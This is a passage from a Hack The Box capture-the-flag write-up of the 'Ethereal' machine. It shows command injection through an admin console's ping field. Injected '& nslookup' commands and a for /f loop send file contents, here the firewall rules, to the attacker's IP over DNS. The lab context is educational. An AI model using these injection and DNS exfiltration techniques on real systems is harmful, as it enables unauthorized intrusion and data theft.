 There's the login. Using that, we find this page.

![admin-console]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/admin-console.png)

I put my IP address in the text-field and it showed `Connection to host successful`. Let's try to capture packets this time around using `tcpdump`.

```bash
root@kali:~/Ethereal# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:57:58.345968 IP ethereal.htb > kali: ICMP echo request, id 1, seq 235, length 40
12:57:58.345989 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 235, length 40
12:57:59.616726 IP ethereal.htb > kali: ICMP echo request, id 1, seq 236, length 40
12:57:59.616884 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 236, length 40
```

We get 2 pings! Looks weird. Based on a guess, it's running something like `ping -n2 <ip>`. Let's find out if this box allows DNS queries. I'll use `& nslookup abcde <myip>` in the text field. Try to see it using tcpdump.

```bash
root@kali:~/Ethereal# tcpdump -ni tun0 udp port 53
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
19:49:18.150063 IP 10.10.10.106.50772 > 10.10.16.39.53: 3+ AAAA? abcde. (23)
```

Great! So we can get data from DNS.

## Enumeration using injection

During my **really** slow enumeration, I found a world writable directory and used `& netsh advfirewall firewall show rule name=all dir=out verbose > c:\users\public\desktop\shortcuts\firewall_rules.txt` to list all the firewall rules in the .txt file.
Using ``& for /f "eol=- skip=100 tokens=1-10*" %i in (c:\users\public\desktop\shortcuts\firewall_rules.txt) do nslookup %i_%j_%k_%l_%m_%o_%p_%q <my ip>``, I got the data in my terminal.

I found that the following rules had been set.

```console
Rule Name: Allow TCP Ports 136
Enabled: Yes
Direction: Out
Profiles: Domain,Private,Public
Grouping:
LocalIP: Any
RemoteIP: Any
Protocol: TCP
LocalPort: Any
RemotePort: 73,136      
Edge traversal: No     
InterfaceTypes: Any      
Security: NotRequired      
Rule source: Local Setting    
Action: Allow  
```
